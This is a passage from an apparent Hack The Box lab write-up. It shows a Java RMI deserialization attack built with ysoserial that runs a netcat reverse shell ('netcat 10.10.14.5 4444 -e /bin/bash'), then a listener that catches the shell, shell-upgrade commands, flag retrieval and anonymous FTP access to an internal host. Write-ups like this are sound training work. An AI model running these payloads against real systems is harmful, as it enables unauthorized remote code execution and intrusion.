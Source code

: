 We can use the `boundname` monitoring and `sendData` signatures to execute command via `deserialization`, which uses `netcat` to send us bash
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ proxychains -q java -jar rmg-5.1.0-jar-with-dependencies.jar serial 172.22.1.250 1099 --yso /opt/ysoserial-all.jar --bound-name monitoring --signature 'String sendData(String dummy,Object dummy2)' CommonsCollections6 'netcat 10.10.14.5 4444 -e /bin/bash'
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+]     Using non primitive argument type java.lang.Object on position 1
[+]     Specified method signature is String sendData(String dummy,Object dummy2)
[+]
[+]     Caught ClassNotFoundException during deserialization attack.
[+]     Server attempted to deserialize canary class cf652ba84eba425ba5cad979806e6b0e.
[+]     Deserialization attack probably worked :)

```

Then we can get the shell as `monitoring`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ nc -lnvp 4444                              
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.13.37.13] 37052
whoami
monitoring
id
uid=1000(monitoring) gid=1000(monitoring) groups=1000(monitoring)

```
Let's upgrade the shell
```
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

We can get another flag from the home directory of `monitoring`
```
monitoring@watcher:/$ cd ~
monitoring@watcher:~$ ls
flag.txt  logs.txt  monitoringServer.jar
monitoring@watcher:~$ cat flag.txt 
SYNACKTIV{TrY_t0_m0n1t0r_My_g@dG3T5}
```

# shell as monitoring
Remember we have known there is a `ftp` service from `172.22.1.53`
We can use `anonymous` username to get access
```
monitoring@watcher:~$ ftp 172.22.1.53
Connected to 172.22.1.53.
220 (vsFTPd 3.0.3)
Name (172.22.1.53:monitoring): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0           20480 Feb 19  2021 backup.tar
```